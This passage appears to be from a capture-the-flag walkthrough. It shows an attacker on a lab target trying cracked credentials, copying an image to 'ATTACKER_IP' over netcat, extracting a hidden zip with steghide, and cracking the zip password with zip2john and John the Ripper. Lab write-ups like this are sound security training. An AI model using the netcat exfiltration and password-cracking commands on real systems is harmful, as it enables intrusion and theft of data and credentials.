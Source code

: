 This looks a bit log to be the real passwords, these are hashes; let's craack them:
--> `aurick:REDACTED_PASSWORD`

Now move to that user:
```bash
su aurick
```

This fails, maybe that person changed the password.

Back inside the directory we previously found the  MySQL credentials i found another interesting file called `hacker.php`, it contains a call to 2 images with the mesasge:
```html
<center>
        <img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
        <h1 style="background-color:red;">You have reached this far. </h2>
        <h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
```

So i decided to transfer that file on my machine:
```bash
nc -lvnp 4444 > hacker.png
```

On target:
```bash
 nc -nv ATTACKER_IP 4444 < hacker-with-laptop_23-2147985341.jpg
```

On my machine i ran `strings` to find any interesting text inside but nothing.
Let's see if there is any embedded data:
```bash
steghide --info hacker.jpg
```

Yes, there is inside file called `backup.zip`, let's extract it, it requires a password, let's try the one we have previously found:
```bash
steghide --extract -xf hacker.jpg -p 'masterpassword'
```

This password is useless, let's extract the file without inserting any password, we will take care of that later:
```bash
steghide --extract -xf hacker.jpg 
```

Now since we need a password to open the archive and we do not have it we crack it:
Make the hash for *John*:
```bash
zip2john  backup.zip > hash4john.txt
```

Now crack it:
```bash
john hash4john.txt --wordlist=rockyou.txt
```

This gives us the following password: `pass1word`.
Now extract the archive:
```bash
unzip backup.zip
```
